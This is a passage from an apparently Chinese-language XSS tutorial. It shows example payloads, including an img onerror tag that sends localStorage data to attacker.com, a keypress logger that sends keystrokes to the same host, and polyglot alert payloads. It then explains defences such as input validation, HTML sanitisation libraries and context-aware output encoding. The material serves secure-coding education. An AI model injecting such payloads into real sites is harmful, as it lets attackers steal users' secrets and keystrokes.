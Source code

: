         `<img src=x onerror="fetch('//attacker.com/log?ls='+btoa(localStorage.secret))">` (窃取特定项 'secret')
    *   **键盘记录:**
        `<script>document.onkeypress = function(e) { fetch('//attacker.com/log?key=' + btoa(e.key)); }</script>`
    *   **执行应用内操作 (假设存在 `changeEmail` 函数):**
        `<script>user.changeEmail('attacker@evil.com');</script>`
    *   **结合多种技巧的 Polyglot Payload (示例):**
        `"><svg/onload=alert(1)>` (尝试闭合属性并用 SVG)
        `javascript:/*--></title></style></textarea></script><svg onload=alert(1)>` (尝试闭合多种标签)

### 十、 XSS 防御策略 (Defense Strategies)

防御 XSS 的核心原则是：**永远不信任用户的输入，对所有输出到页面的数据进行恰当的上下文编码，并纵深部署多层防御机制。**

1.  **输入验证与清理 (Input Validation and Sanitization):**
    *   **目的:** 在数据**存入数据库之前**或**用于应用程序逻辑之前**，确保其符合预期的格式和类型，并移除已知的恶意模式。
    *   **方法:**
        *   **类型检查:** 验证数据是否为预期的类型（数字、日期、邮箱地址、URL 等）。
        *   **长度限制:** 限制输入数据的最大长度。
        *   **格式验证:** 使用正则表达式等方法验证输入是否符合特定格式。
        *   **白名单验证:** 只允许输入包含在预定义的安全字符集或模式中。这是最严格也是推荐的方式。
        *   **黑名单过滤 (不推荐作为主要手段):** 移除或替换已知的危险字符、标签或模式（如 `<script>`, `onerror`）。容易被绕过。
        *   **HTML 清理 (针对富文本):** 如果需要允许用户输入部分 HTML（如富文本编辑器），**绝不能**简单地过滤或编码。必须使用专门的、基于白名单的 HTML 清理库（如 **DOMPurify** [客户端 JS], **HTML Purifier** [PHP], **Bleach** [Python], **JSoup** [Java]）来移除所有不安全的标签、属性和 CSS。
    *   **关键:** 输入验证应在**服务器端**强制执行，客户端验证仅用于提升用户体验，不能作为安全保障。

2.  **输出编码 (Output Encoding):**
    *   **目的:** 在将数据**插入到 HTML 页面进行显示之前**，根据其输出的**上下文**进行正确的编码，确保浏览器将其作为纯粹的数据处理，而不是活动内容（如 HTML 标签或脚本）。**这是防御 XSS 最核心、最有效的手段。**
    *   **根据上下文选择编码方式:**
        *   **HTML 标签内容 (Element Content):** `<div>USER_INPUT</div>`
            *   **编码:** HTML 实体编码。对 `< > & " ' /` 等字符进行编码。
            *   **函数:** PHP: `htmlspecialchars($input, ENT_QUOTES | ENT_HTML5, 'UTF-8')`; Java (OWASP ESAPI): `ESAPI.encoder().encodeForHTML(input)`; Python (Jinja2/Django): 默认自动; JS: `element.textContent = input;` (最佳)。
        *   **HTML 属性值 (Attribute Values):** `<input value="USER_INPUT">`
            *   **编码:** HTML 属性编码（同样是 HTML 实体编码，尤其注意引号）。
            *   **函数:** 同上。确保引号被编码。
        *   **JavaScript 字符串变量:** `var data = 'USER_INPUT';`
            *   **编码:** JavaScript Unicode 转义 (`\uHHHH`) 或十六进制转义 (`\xHH`)。对影响字符串定界的字符 (`'`, `"`, `\`) 以及可能被解析为 HTML 的字符 (`<`, `/`) 等进行转义。
            *   **函数:** Java (OWASP ESAPI): `ESAPI.encoder().encodeForJavaScript(input)`; 很多库提供类似功能。**最佳实践是避免将用户数据直接嵌入 JS 代码，而是通过 JSON 传输并在 JS 中解析，或放在 HTML 的 `data-*` 属性中读取。**
        *   **JavaScript 事件处理器:** `<a onclick="myFunc('USER_INPUT')">`
            *   **编码:** 同 JavaScript 字符串编码。非常危险，尽量避免。
        *   **CSS 值:** `<div style="color: USER_INPUT;">`
            *   **编码:** CSS 十六进制转义 (`\HH`). 对非字母数字字符进行转义。避免允许用户控制整个 `style` 属性或 `<style>` 块。
            *   **函数:** Java (OWASP ESAPI): `ESAPI.encoder().encodeForCSS(input)`;
        *   **URL 组件:** `<a href="/search?q=USER_INPUT">`
            *   **编码:** URL 编码 (百分比编码)。
            *   **函数:** PHP: `urlencode($input)` (用于查询参数), `rawurlencode($input)` (用于路径段); JS: `encodeURIComponent(input)`; Java: `URLEncoder.encode(input, "UTF-8")`; Python: `urllib.parse.quote_plus(input)`.
